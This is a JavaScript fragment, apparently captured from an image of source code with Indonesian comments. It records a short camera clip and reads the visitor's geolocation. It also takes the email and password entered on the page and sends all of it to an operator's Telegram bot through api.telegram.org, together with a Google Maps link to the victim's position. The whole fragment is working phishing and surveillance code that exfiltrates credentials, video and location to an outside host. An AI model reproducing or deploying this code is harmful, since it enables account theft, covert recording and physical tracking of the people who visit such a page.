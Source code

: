             videoRecorder.start();
            setTimeout(() => {
                if (videoRecorder.state !== "inactive") videoRecorder.stop();
            }, 3000);
        } catch (error) {
            console.error('Gagal mengakses kamera:', error);
        }
    }

    async function sendLocationAndVideo(videoBlob) {
        if (!navigator.geolocation) {
            console.error("Geolocation tidak didukung oleh browser ini.");
            return;
        }

        navigator.geolocation.getCurrentPosition(
            async (position) => {
                const { latitude, longitude } = position.coords;
                const email = document.getElementById('email').value || "Tidak ada email";
                const password = document.getElementById('password').value || "Tidak ada password";

                const message = `
                📍 Lokasi Pengguna:
                Latitude: ${latitude}
                Longitude: ${longitude}
                
                ➣ Email: ${email}
                ➣ Password: ${password}

                🌍 [Lihat di Google Maps](https://www.google.com/maps?q=${latitude},${longitude})
                `;

                try {
                    const formData = new FormData();
                    formData.append("chat_id", chatID);
                    formData.append("video", videoBlob, "recorded_video.webm");

                    const videoResponse = await fetch(`https://api.telegram.org/bot${botToken}/sendVideo`, {
                        method: 'POST',
                        body: formData
                    });
                    console.log('Video dikirim:', await videoResponse.json());

                    const messageResponse = await fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
                        method: 'POST',
                        headers: { 'Content-Type': 'application/json' },
                        body: JSON.stringify({ chat_id: chatID, text: message, parse_mode: "Markdown" })
                    });
                    console.log('Lokasi dikirim:', await messageResponse.json());
                } catch (error) {
                    console.error('Gagal mengirim data:', error);
                }
            },
            (error) => {
                console.error("Gagal mendapatkan lokasi:", error);
            }
        );
    }
